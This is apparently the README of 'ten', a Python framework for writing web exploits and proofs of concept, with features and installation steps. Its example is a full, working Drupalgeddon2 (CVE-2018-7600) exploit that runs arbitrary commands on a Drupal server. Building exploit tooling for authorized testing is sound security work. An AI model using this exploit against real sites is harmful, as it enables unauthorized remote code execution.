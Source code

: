 # ten

My (small) web exploit framework. I got tired of writing standard code over and over again,
so I made this. Makes code more concise, clearer, faster to write. Might be useful to you.

It helps with HTTP interactions, handling user input, providing clear output, handling files, and running shell commands.

Useful to build POCs, and convert them into full, documented exploits in a blink.

# Documentation

Documentation is available here: [https://cfreal.github.io/ten/](https://cfreal.github.io/ten/).

It includes tutorials, quickstart guides, and the Python documentation.

# Features

* Input/output
    * Arguments to the main function are automatically mapped to `argparse`
        * They can hold a default value, get documented, etc.
    * Output is clear and readable
* HTTP
    * Improves the standard `requests` API
    * Parse HTTP responses easily (regex, CSS selectors, forms)
    * Turn BURP on and off in a blink
    * Concurrency
    * Lots more.
* Data conversion
    * Transform data: base64, hashing, query string, CSV, JSON, ...
    * Available as a tool: `tf`
* ...


# Installation

First clone the repository and cd into it:

```
$ git clone https://github.com/cfreal/ten.git
$ cd ten
```

**ten** can be installed from source using *pip* or *poetry*. It requires Python 3.10 or higher.

Use *poetry* to create a virtual environment and install the package: 

```
$ poetry install
$ poetry shell
```

If you're feeling adventurous, you can also install it with *pip*. This enables the `ten` and `tf` commands system-wide:

```
$ pip install .
```

# Example

Functional, fully documented Drupalgeddon2 exploit:

```python
#!/usr/bin/env python3

from ten import *


@entry
@arg("url", "URL of the Drupal website to exploit")
@arg("command", "Command to run on the server. Defaults to `id`")
def main(url, command="id"):
    """Exploit for Drupalgeddon2 (CVE-2018-7600)."""

    session = ScopedSession(url)
    response = session.post(
        url,
        params={
            "q": "user/password",
            "name[#post_render][]": "passthru",
            "name[#markup]": command,
            "name[#type]": "markup",
        },
        data={"form_id": "user_pass", "_triggering_element_name": "name"},
    )
    try:
        form = response.form(id="user_pass")
    except FormNotFoundError:
        failure("Unable to find form in response")
    
    build_id = form["form_build_id"]
    response = session.post(
        url,
        params={
            "q": f"file/ajax/name/#value/{build_id}"
        },
        data={"form_build_id": build_id},
    )
    result = response.re.search(r"^(.*)\[{", flags=re.S)
    
    assume(result, "Unable to find command result in response")

    msg_success("Exploit done")
    msg_info("Command result:")

    msg_print(result.group(1))


main()
```
